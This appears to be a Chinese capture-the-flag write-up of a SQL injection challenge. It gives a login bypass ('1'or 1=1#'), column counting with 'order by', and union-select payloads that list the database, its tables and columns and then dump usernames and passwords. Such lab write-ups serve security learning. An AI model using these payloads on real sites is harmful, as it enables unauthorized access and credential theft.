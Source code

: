 我们进行查看万能代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/dee2be9f385069bb8b6a8a9afd97d965.png" alt="" style="max-height:407px; box-sizing:content-box;" />


```csharp
用户名 ：1'or 1=1#
密码随便
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/835bb98e4ce85474cdcd72422a996408.png" alt="" style="max-height:417px; box-sizing:content-box;" />


我们继续提交 发现flag错误 我们重新返回注入 因为得到了admin 正确的用户名 我们就可以尝试进行sql注入

```vbnet
admin' order by 4#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9bb80517fc4b7c2b83f1e9f823e64aff.png" alt="" style="max-height:269px; box-sizing:content-box;" />


三个字段

查看回显点



```csharp
0' union select 1,2,3#
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/9e7661c367f7e44495f1b91e65c81503.png" alt="" style="max-height:522px; box-sizing:content-box;" />


得到回显点 我们在2 3 进行sql注入

```cobol
爆数据库
0' union select 1,2,database()#
爆表名
0' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()#
爆字段
0' union select 1,2,group_concat(column_name)from information_schema.columns where table_name ='l0ve1ysq1'#
爆出内容
0' union select 1,2,group_concat(id,username,password)from geek.l0ve1ysq1#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/17f86dfb83b1b7b51b049b203089768b.png" alt="" style="max-height:360px; box-sizing:content-box;" />
